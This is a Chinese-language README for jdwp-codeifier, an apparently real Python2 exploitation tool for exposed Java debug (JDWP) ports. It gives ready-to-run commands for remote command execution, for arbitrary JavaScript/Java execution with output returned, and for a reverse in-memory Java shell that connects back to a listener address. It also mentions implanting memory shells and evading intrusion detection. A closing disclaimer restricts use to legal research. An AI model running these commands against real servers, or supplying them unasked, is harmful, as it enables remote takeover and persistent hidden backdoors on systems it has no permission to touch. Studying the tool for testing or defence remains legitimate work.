



# jdwp-codeifier

## 介绍
对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：https://github.com/IOActive/jdwp-shellifier ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：https://github.com/Lz1y/jdwp-shellifier

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：https://github.com/r3change/jdwp-shellifier

但JDWP漏洞的利用本身不局限于“命令执行”，而且有时候为了规避入侵检测，或者为了植入内存马等，是需要动态执行Java代码的，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为jdwp-codeifier，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显

## 使用
由于原版代码依赖了很多Python2特性，改起来有点费劲，所以这一版依然还是只支持Python2，期待有师傅提交同时兼容Python2/3的PR。

### 用法
```
usage: jdwp-codeifier.py [-h] -t IP [-p Port] [-m Mode] [-c Command/Code]
                         [-a Address] [-l life]

Advanced exploitation script for JDWP by @leixiao, base on @_hugsy_, @Lz1y,
@r3change

optional arguments:
  -h, --help       show this help message and exit
  -t IP            Remote target IP (default: None)
  -p Port          Remote target port (default: 8000)
  -m Mode          command/code/rshell (default: code)
  -c Command/Code  Command or JavaScript Code (default: None)
  -a Address       The address of reverse shell (default: None)
  -l life          The survival time (minute) of the shell when unable to
                   connect to the server (default: 1)
```

### 命令执行
项目也保留了原本的命令执行功能，但命令行参数略有不同，执行 touch /tmp/success：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m command -c 'touch /tmp/success'
```


### 代码执行
动态代码执行是通过new javax.script.ScriptEngineManager().getEngineByName("js").eval()实现的，所以语法上是JS代码，但依然可以调用Java方法

执行系统命令并回显：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m code -c 'new java.util.Scanner(new java.lang.ProcessBuilder("sh","-c","whoami").start().getInputStream()).useDelimiter("-|-").next()'
```



通过JS代码还可以动态定义类，加载外部类，插入内存马等等... 各位就自己发挥了

## 反弹Java内存Shell

https://l3yx.github.io/2023/12/03/%E9%80%9A%E8%BF%87JDWP%E6%BC%8F%E6%B4%9E%E6%B3%A8%E5%85%A5%E4%B8%8D%E4%B8%80%E6%A0%B7%E7%9A%84%E5%86%85%E5%AD%98%E9%A9%AC/#%E5%8F%8D%E5%90%91%E5%86%85%E5%AD%98Shell

```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m rshell -a 172.17.0.2:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```



## 免责声明
本工具仅面向合法的学习或研究行为。在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。